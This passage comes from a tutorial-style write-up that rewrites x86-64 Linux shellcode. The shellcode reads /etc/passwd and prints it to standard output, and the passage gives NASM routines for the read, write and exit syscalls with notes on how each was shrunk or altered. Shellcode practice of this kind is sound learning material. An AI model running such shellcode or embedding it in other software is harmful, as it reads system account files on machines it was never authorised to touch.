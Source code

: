 Since the routing for reading the bytes from `/etc/passwd` is quite short, I simply changed some of the instructions (to alter the resulting bytes) and their order.

```nasm
ReadFile:

    sub sp, 0xfff
    mov rsi, rsp

    push rax
    pop rdi

    xor eax, eax

    cdq
    mov dx, 0xfff

    syscall
```

<figcaption class="figure-caption">Reading `/etc/passwd`</figcaption>

In this case, I replaced the `LEA` (Load Effective Address) instruction with `MOV`, and replaced the next `MOV` with the `PUSH-POP` technique, which should occupy fewer bytes depending on the register used.

There's also the instruction `CDQ` (Convert Double to Quad), which allows me sign-extend `RAX` into `RDX`, thus clearing the latter if the former is positive.

### WriteOutput

In the original shellcode, the part of the code responsible for writing the contents of `/etc/passwd` to the standard output can be shrinked to its half.

In fact, it clears the `RDI` register and increases it by 1, while doing the same operations for the `RAX` register, when you could simply copy `RDI` into `RAX`.

```nasm
WriteOutput:
  
    ; call sys_write
    xor edi, edi
    inc edi
    mov rax, rdi

    syscall
```

<figcaption class="figure-caption">Writing the contents of `/etc/passwd` to `stdout`</figcaption>

### Exit

The last routine terminates the execution of the shellcode, exiting gracefully.

```nasm
Exit:

    ; call sys_exit
    push rdi
    pop rax
    add al, 59
    syscall
```

<figcaption class="figure-caption">Graceful exit</figcaption>

If you wanted to make the shellcode even smaller, you could remove this part, since it's not really necessary.

